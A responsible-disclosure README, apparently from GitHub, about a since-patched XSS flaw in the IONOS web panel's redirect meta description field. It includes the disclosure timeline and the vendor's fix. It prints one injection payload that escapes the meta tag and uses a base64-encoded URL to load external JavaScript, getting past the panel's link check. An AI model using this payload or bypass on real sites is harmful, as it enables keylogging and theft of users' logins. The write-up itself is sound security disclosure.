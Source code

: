 # JSPayload
**NOTE:** This exploit has been reported to IONOS and as of 10th February 2020 this exploit is no longer possible. Thanks to the security team at 1&1 for patching this!

## The Exploit

IONOS Webpanel did not santitise or parse any HTML written into the "Short Description" meta tag for redirect sites. This allowed an attacked to inject malicious javascript into a site which could then execute external javascript pulled from any other server. 

![IONOS Web Panel](https://i.imgur.com/KRsu6ab.png)

This exploit allowed an attacked to run any javascript they wanted on a page where other pages were loaded in as an Iframe. This means they could fool a user into thinking they were logging into a legitimate service, when the attacker has malicious javascript logging keyboard input.

![Firefox Developer tools showing JS has been injected to the site.](https://i.imgur.com/OxgeoaI.png)

The interesting thing was that the IONOS web panel **DID** check for links!  But this could be easily circumvented via obfuscation with base64, using js to deobfuscate the B64 back into a url and inject it into the page programatically. The code to do so was:
```js
**"/><script id="j"></script><script id="f"></script><script id="c"></script><script>document.getElementById("c").setAttribute("src",atob("aHR0cHM6Ly9yYXcuZ2l0aGFjay5jb20vVGlrdmFoVGVybWluYXRvci9KU1BheWxvYWQvbWFzdGVyL3BheWxvYWQuanM=");</script><meta name="**
```
This set up two script tags to be injected into by the external JS with IDs to be selected, and then simply injected the JS! 


## How did you discover this?

It's daft, but I was trying to put a favicon as an icon for a CTF page through redirect, when i realised that the \<meta> tag could be escaped, and that \<script> tags could written, and using JS, inject more javascript from an external source into the webpage! Isn't web security neat!

## When was this disclosed.
I disclosed this the day I found it out on 28th of January 2020 by calling and Emailing 1&1. IONOS responded to me via twitter [@bufferrodentflo](https://twitter.com/BufferRodentFlo) and i explained it to them from there :)

## Thanks
Special thanks to [Ch0p5u3y](https://github.com/Ch0p5u3y) & J.A Day for listening to my ramblings as I talked outloud about this to them and realised the B64 method! 

